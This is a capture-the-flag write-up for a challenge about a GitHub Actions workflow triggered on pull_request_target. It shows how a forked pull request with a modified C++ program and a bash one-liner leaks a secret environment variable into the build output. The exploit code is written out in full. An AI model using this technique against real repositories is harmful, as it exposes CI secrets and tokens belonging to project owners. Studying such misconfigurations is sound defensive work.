 # Fork Knife (500 points) - Github

You must solve the first challenge to get the answer of this 2nd challeng.

![Alt text](_images/image.png)

This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There are a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.

![Alt text](_images/image-1.png)

Looking at the actions tab to see the workflow running.
![Alt text](_images/image-2.png)

and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}

